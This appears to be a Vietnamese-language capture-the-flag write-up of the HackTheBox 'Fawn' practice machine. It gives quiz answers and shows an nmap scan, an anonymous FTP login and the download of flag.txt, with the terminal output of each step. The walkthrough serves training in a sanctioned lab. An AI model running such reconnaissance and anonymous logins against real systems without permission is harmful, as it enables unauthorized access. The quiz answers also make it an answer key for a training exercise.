```yaml
---
title: HackTheBox | StartingPoint | Fawn WriteUp
date: 2023-01-16 
categories: [HackTheBox, StartingPoint]
---
```



# [StartingPoint] Fawn WriteUp

# 1. Trả lời câu hỏi :

**What does the 3-letter acronym FTP stand for?**

→ File Transfer Protocol

**Which port does the FTP service listen on usually?**

→ 21

**What acronym is used for the secure version of FTP?**

→ SFTP

**What is the command we can use to send an ICMP echo request to test our connection to the target?**

→ ping

**From your scans, what version is FTP running on the target?**

→ vsftpd 3.0.3

**From your scans, what OS type is running on the target?**

→ Unix

**What is the command we need to run in order to display the 'ftp' client help menu?**

→ ftp -h

**What is username that is used over FTP when you want to log in without having an account?**

→ anonymous

**What is the response code we get for the FTP message 'Login successful'?**

→ 230

**There are a couple of commands we can use to list the files and directories available on the FTP server. One is dir. What is the other that is a common way to list files on a Linux system.**

→ ls

**What is the command used to download the file we found on the FTP server?**

→ get

# 2. Thu thập Flag từ máy ảo :

## Tổng quan về máy ảo :

Kết nối đến máy ảo :

Tải tập tin *.ovpn, sử dụng câu lệnh để kết nối đến dịch vụ của HackTheBox thông qua openvpn

```bash
┌──(kali㉿kali)-[~/Desktop/hackthebox]
└─$ sudo openvpn --config /home/kali/Desktop/hackthebox/starting_point_Darko2212.ovpn
```

Thực hiện bấm nút **“SPAMW MACHINE”** để khởi động máy ảo, có thể bấm “Reset machine” để khởi động lại hoặc “Stop Machine” để tắt máy ảo.

## Kiểm tra tính kết nối :

Sử dụng lệnh ping đến IP của máy ảo : 10.129.104.21

```bash
┌──(kali㉿kali)-[~]
└─$ ping 10.129.104.21
PING 10.129.104.21 (10.129.104.21) 56(84) bytes of data.
64 bytes from 10.129.104.21: icmp_seq=1 ttl=63 time=212 ms
64 bytes from 10.129.104.21: icmp_seq=2 ttl=63 time=211 ms
64 bytes from 10.129.104.21: icmp_seq=3 ttl=63 time=210 ms
^C
--- 10.129.104.21 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2002ms
rtt min/avg/max/mdev = 210.483/211.254/212.196/0.709 ms
```

Thực hiện các yêu cầu :

- Thu thập thông tin
- Khai thác lỗ hổng và leo thang đặc quyền (nếu có).
- Thu thập Flags.

# 3. Thu thập thông tin:

### Sử dụng nmap (tìm các cổng và dịch vụ đang hoạt động) :

→ tìm được dịch vụ FTP đang hoạt động.

→ có thể truy cập bằng anonymous (truy cập không cần mật khẩu).

→ quá trình quét thể hiện tập tin flags.txt trong tập chi sẻ của ftp.

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -Pn 10.129.104.21
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-17 00:50 EST
Nmap scan report for 10.129.104.21
Host is up (0.20s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.156
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.60 seconds
```

# 4. Khai thác lỗ hổng :

Từ việc tìm kiếm thông tin từ nmap cho thấy có thể truy cập dịch vụ FTP bằng tài khoản “anonymous”.

```bash
┌──(kali㉿kali)-[~]
└─$ ftp 10.129.104.21
Connected to 10.129.104.21.
220 (vsFTPd 3.0.3)
Name (10.129.104.21:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

Hiển thị các nội dung bằng lệnh “ls”.

```bash
ftp> ls
229 Entering Extended Passive Mode (|||31050|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
226 Directory send OK.
```

Thực hiện tải tập tin về máy bằng lệnh “get flag.txt”.

```bash
ftp> get flag.txt
local: flag.txt remote: flag.txt
229 Entering Extended Passive Mode (|||56557|)
150 Opening BINARY mode data connection for flag.txt (32 bytes).
100% |**********************************************************************|    32       41.06 KiB/s    00:00 ETA
226 Transfer complete.
32 bytes received in 00:00 (0.15 KiB/s)
```

Lúc này thì tập tin flag.txt đã được tải về máy và có thể truy cập để đọc nội dung của flag.txt

```bash
┌──(kali㉿kali)-[~/Desktop/hackthebox/fawn]
└─$ ls -alg            
total 12
drwxr-xr-x  2 kali 4096 Jan 17 00:56 .
drwxr-xr-x 11 kali 4096 Jan 17 00:56 ..
-rw-r--r--  1 kali   32 Jun  3  2021 flag.txt
```

# 5. Leo thang đặc quyền :

Không cần thiết do đã lấy được flag.txt

# 6. Thu thập Flags:

Tải tập tin flag.txt vừa tải được về đọc để lấy nội dung của flag.

# 7. Tài liệu tham khảo :

[https://www.geeksforgeeks.org/nmap-command-in-linux-with-examples/](https://www.geeksforgeeks.org/nmap-command-in-linux-with-examples/)

[https://www.serv-u.com/linux-ftp-server/commands](https://www.serv-u.com/linux-ftp-server/commands)